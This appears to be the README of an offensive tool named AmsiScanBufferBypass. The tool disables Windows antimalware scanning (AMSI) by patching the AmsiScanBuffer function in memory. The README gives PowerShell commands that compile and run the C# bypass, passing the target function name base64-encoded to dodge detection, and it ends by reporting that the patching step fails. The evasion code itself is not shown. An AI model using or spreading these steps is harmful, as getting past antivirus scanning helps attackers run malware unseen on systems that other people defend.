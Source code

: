 # AmsiScanBufferBypass
Bypass AMSI by patching AmsiScanBuffer.

https://rastamouse.me/memory-patching-amsi-bypass/

# PRAC1 How to use
Open up a PowerShell, cd to your directory and:

    $source = Get-Content -Delimiter "`n" -Path .\AmsiBypass.cs
    Add-Type -TypeDefinition "$source"
    [AmsiBypass]::Main("QW1zaVNjYW5CdWZmZXI=")

This is failing at the point where patching the AmsiScanBuffer function is attempted.
